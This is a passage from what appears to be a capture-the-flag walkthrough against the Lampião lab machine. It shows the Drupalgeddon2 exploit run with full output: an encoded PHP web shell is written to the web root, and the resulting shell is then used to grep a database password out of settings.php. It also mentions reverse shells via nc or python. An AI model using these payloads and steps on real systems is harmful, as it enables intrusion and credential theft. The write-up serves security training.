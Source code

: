 One raw (exploit) looks interesting, and it is the infamous Drupalgeddon2 ;)
Let's give it a shot.

```
user@kali:~$ ruby /usr/share/exploitdb/exploits/php/webapps/44449.rb http://192.168.1.85:1898
ruby: warning: shebang line ending with \r may cause problems
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[*] Target : http://192.168.1.85:1898/
--------------------------------------------------------------------------------
[+] Found  : http://192.168.1.85:1898/CHANGELOG.txt (200)
[+] Drupal!: 7.54
--------------------------------------------------------------------------------
[*] Testing: Code Execution
[*] Payload: echo UBOQZSMV
[+] Result : UBOQZSMV
[{"command":"settings","settings":{"basePath":"\/","pathPrefix":"","ajaxPageState":{"theme":"bartik","theme_token":"IoYX9sQTS_U7pTnp-E9YIbpEmYR7FF0wJSJ7IL_9edY"}},"merge":true},{"command":"insert","method":"replaceWith","selector":null,"data":"","settings":{"basePath":"\/","pathPrefix":"","ajaxPageState":{"theme":"bartik","theme_token":"IoYX9sQTS_U7pTnp-E9YIbpEmYR7FF0wJSJ7IL_9edY"}}}]
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: File Write To Web Root (./)
[*] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee ./s.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }[{"command":"settings","settings":{"basePath":"\/","pathPrefix":"","ajaxPageState":{"theme":"bartik","theme_token":"hGG1vki-ijk-YlOz1WyKRSQfA5ujfUBAIdYF8QIxBHM"}},"merge":true},{"command":"insert","method":"replaceWith","selector":null,"data":"","settings":{"basePath":"\/","pathPrefix":"","ajaxPageState":{"theme":"bartik","theme_token":"hGG1vki-ijk-YlOz1WyKRSQfA5ujfUBAIdYF8QIxBHM"}}}]
[+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
--------------------------------------------------------------------------------
[*] Fake shell:   curl 'http://192.168.1.85:1898/s.php' -d 'c=whoami'
lampiao>>
```

Oh yeah! We got a shell. Beeing a RCE via web, the user we are is `www-data` which is an unprivileged user.
Before moving on, you can notice that you are not on a fully fledged tty. Now you have two alternatives.

- Mainly you can use `nc` and/or `python` to start a remote shell back to you, or
- you can find more information and try to get in from the main door.

If you are interested at the first option, you can have a look at this [post](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/).
I went for the second one, and try to use a little social engineering combined with -always useful- luck.

Since I am curious (and I have some experience on how people tend to choose and reuse the same password all round) I wanted to see how Drupal connects to the MySql database. Locate the settings and grep for the password.

```
lampiao>> locate settings.php
/var/www/html/sites/default/default.settings.php
/var/www/html/sites/default/settings.php
/var/www/html/themes/garland/theme-settings.php
lampiao>> cat /var/www/html/sites/default/settings.php|grep password
 *   'password' => 'password',
 * username, password, host, and database name.
 *   'password' => 'password',
 *   'password' => 'password',
 *     'password' => 'password',
 *     'password' => 'password',
      'password' => 'Virgulino',
 * by using the username and password variables. The proxy_user_agent variable
```